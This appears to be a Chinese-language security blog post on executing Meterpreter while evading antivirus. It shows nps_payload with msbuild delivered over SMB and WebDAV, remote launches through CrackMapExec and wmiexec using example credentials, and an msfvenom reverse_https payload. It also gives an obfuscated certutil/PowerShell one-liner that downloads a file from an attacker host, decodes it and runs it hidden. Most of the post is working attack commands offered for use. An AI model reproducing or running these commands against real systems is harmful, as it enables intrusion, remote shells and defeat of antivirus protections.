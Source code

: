 ```yaml
---
layout:     post
title:      使用Meterpreter的多种姿势
date:       2019-1-5
author:     Wh0ale
header-img: img/meterpreter.jpg
catalog: true
tags:
    - bypass
---
```


























































# Meterpreter Bypassing AntiVirus

## 一、nps_payload

安装：

```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuu1u8ahqj20z40leq6c.jpg)

>1. Run "msfconsole -r msbuild_nps.rc" to start listener.
>2. Choose a Deployment Option (a or b): - See README.md for more information.
>     a. Local File Deployment:
>
>    - %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
>  b. Remote File Deployment:
>
>    - wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
>
>3. Hack the Planet!!

开启SMB共享

```
apt-get install samba
cd /etc/samba/
vi smb.conf
```

```
添加
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuuf146znj20jn03qmx7.jpg)

连接：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvhxyqqt1j20rx0g0wg2.jpg)

smb只能在内网共享，所以我想在公网使用没成功。

```
mkdir /tmp/share
cp ~/nps_payload/msbuild_nps.xml /tmp/share/
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuuhvbjlqj20hd04c3yy.jpg)

开启msfconsole监听：

```
msfconsole
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 192.168.xxx.xxx
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit -j
```



三种方式获得shell

①与主机有RDP连接，只需将此命令粘贴到命令提示符

```
%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvin22ys2j20oy03374c.jpg)

②CrackMapExec

```
crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x '%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.133\Guest\msbuild_nps.xml'
```

③mpacket’s wimiexec.py

```
python wmiexec.py Adminstrator:Password123@192.168.137.1 cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.133\Guest\msbuild_nps.xml
```

在测试时，我在执行这些操作时遇到了一些麻烦。因此，我想到了一种更好的方式来交付有效载荷而不是使用SMB。我决定使用[WebDAV](https://en.wikipedia.org/wiki/WebDAV)。为何选择WebDAV？这是UNC路径的有趣之处。Windows将首先尝试通过端口445通过SMB访问主机。如果不能，它将尝试在端口80上使用WebDAV。这有用的原因有以下几点：

1. SMB通常在防火墙处被阻止。如果我们想从远程系统中提取有效负载，这可能不起作用，因为端口445被阻止。
2. 从CrackMapExec版本4开始，它需要在端口445上运行的SMB服务器才能执行命令。我们不能同时在同一主机上使用我们的Samba共享和CME。
3. 如果担心基于网络的检测，WebDAV也可以通过HTTPS。

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyuun466tzj20kx0ibq4x.jpg)

有很多方法可以设置WebDAV服务器。虽然您可以使用Apache，但我选择使用名为[WsgiDAV](https://wsgidav.readthedocs.io/en/latest/)的python工具为我创建一个。

只需输入以下内容即可通过pip安装它：

```
pip install WsgiDAV
```

要使用它，请运行命令：

```
`pip install wsgidav cheroot``wsgidav --host=0.0.0.0 --port=80 --root=/tmp`
```

对于此示例，我将有效负载放在名为“ *test* ” 的文件夹中的*/ tmp /*目录中。

要远程执行有效负载，我们运行一个非常相似的命令：

CrackMapExec：

```
crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x '%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.134\Davwwwroot\test\msbuild_nps.xml'
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvio52j9zj20oq02tglq.jpg)

Impacket的wimiexec.py：

```
python wmiexec.py Administrator:Password123@192.168.137.1
C:\>%windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\192.168.137.134\Davwwwroot\test\msbuild_nps.xml
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyviok4f3ej20od03874f.jpg)



有了它，我们现在无需使用SMB即可在目标上执行无文件执行。没有任何内容写入磁盘，没有SMB流量出站，并完全逃避反病毒软件。

**注意**：重启Kali Linux后，我在Windows主机上连接到Kali上的WebDAV服务器时出现问题。要修复它，我只是启动并停止了Samba。



## 二、使用CertUtil.exe进行内存中注入

[Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)是PowerShell v2.0 +兼容的PowerShell远程下载底座生成器和混淆器。

我将讨论使用PowerShell，Invoke-CradleCrafter和Microsoft的Certutil.exe来制作有效载荷和单行程序的步骤，这些程序可用于规避最新版本的Windows Defender（截至撰写本文时），以及作为不被入侵检测系统和行为分析捕获的提示。毕竟，PowerShell仍然是获得立足点的最简单和最好的方法之一，但与此同时它正在把你卖掉，因为它会在AMSI运行后立即与AMSI对话，这会让事情变得有点挑战。这种方法的优点在于，Microsoft的certutil会将网络调用到你的主要负载，同时看起来是一个无辜的小证书文件，而不是您的标准PowerShell Invoke-Shellcode摇篮。

**设置要求：** Linux，Metasploit，Invoke-CradleCrafter，适用于Linux的PowerShell和Windows 10. 
安装[适用于Linux](https://github.com/PowerShell/PowerShell)和[Metasploit的](https://github.com/rapid7/metasploit-framework)[PowerShell](https://github.com/PowerShell/PowerShell)。

当我这样做时，我更喜欢在Linux上运行PowerShell，因此Defender不会绊倒。[从GitHub下载Invoke-CradleCrafter。](https://github.com/danielbohannon/Invoke-CradleCrafter.git)

接下来，我们将通过执行以下操作创建base64编码的PowerShell Meterpreter有效负载：

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<YOUR IP HERE> LPORT=443 -e cmd/powershell_base64 -f psh -o load.txt
```

**请注意**，只要certutil可以获取并阅读其内容，有效负载文件的扩展名就可以是任何内容。例如，组织可能具有不允许下载脚本的策略（或IDS，内容过滤器等），但是它们可能允许.txt文件甚至具有异常扩展的文件。如果您更改它，只需确保在Invoke-CradleCrafter中设置URL时进行补偿（见下文）。

接下来，您将创建一个用于提供Web内容的文件夹。在此示例中，我们将调用文件夹有效内容。将PowerShell Meterpreter PowerShell脚本放在此文件夹中。

接下来，我们将使用Invoke-CradleCrafter来模糊我们的certutil和PowerShell命令，这些命令将用于执行绕过Defender的内存中注入。

通过键入pwsh或powershell，在Linux主机上进入PowerShell提示符。进入后**，**进入您的Invoke-CradleCrafter目录并运行以下命令：

```powershell
Import-Module .\Invoke-CradleCrafter.psd1
Invoke-CradleCrafter
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj7h4f15j20h40ls41r.jpg)

```
SET URL http://192.168.211.179/load.txt
下一步键入MEMORY，然后键入CERTUTIL：
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj9bce27j20h40pcaf3.jpg)

接下来，您将看到您的混淆选项。我通常选择**All**然后输入**1**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvj9guau3j20hm0irwhl.jpg)

获得结果后，将其放在Windows计算机上名为raw.txt的文件中。您将使用certutil在base64中对此文件进行编码，以创建名为cert.cer的文件并将其放在Web服务器上。然后，我们将构建一个单行程，将远程调用以下拉该文件并将其在目标上执行。一旦执行，它将调用我们的有效负载load.txt并通过PowerShell将Meterpreter注入内存。 

使用certutil对raw.txt文件进行编码：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvjbn6tbgj20r80arjsa.jpg)

```
One-liner:

powershell.exe -Win hiddeN -Exec ByPasS add-content -path %APPDATA%\cert.cer (New-Object Net.WebClient).DownloadString('http://192.168.211.179/cert.cer'); certutil -decode %APPDATA%\cert.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe  -Exec Bypass -NoExit -File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cert.cer
```



被火绒杀了...想法很好但是没实现，算是拓宽了思维了。





Reference：

[https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/)



